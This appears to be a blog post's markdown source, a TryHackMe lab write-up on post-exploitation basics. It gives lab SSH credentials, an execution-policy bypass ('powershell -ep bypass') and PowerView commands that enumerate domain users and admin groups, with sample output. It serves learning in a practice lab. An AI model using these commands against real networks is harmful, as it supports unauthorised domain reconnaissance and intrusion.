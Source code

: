 ```yaml
---
title: "Post exploitation basics"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="kiwi.png" alt="kiwi" style="width: 200px;" >}}

Just ssh with:

Your machine IP is 10.10.148.206 (yours will differ)
Username: Administrator
Password: P@$$W0rd
Domain Name: CONTROLLER

we run powershell `powershell -ep bypass`

## PowerView

then powerview `. .\Downloads\PowerView.ps1`
domain users enumeration `Get-NetUser | select cn`

```powershell
cn
--
Administrator
Guest
krbtgt
Machine-1
Admin2
Machine-2
SQL Service
POST{FLAG1_HERE}
sshd
```

groups enum `Get-NetGroup -GroupName *admin*`

```powershell
Administrators
Hyper-V Administrators
Storage Replica Administrators
Schema Admins
Enterprise Admins
Domain Admins
Key Admins
Enterprise Key Admins
DnsAdmins
```

further commands [cheatsheet here](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)
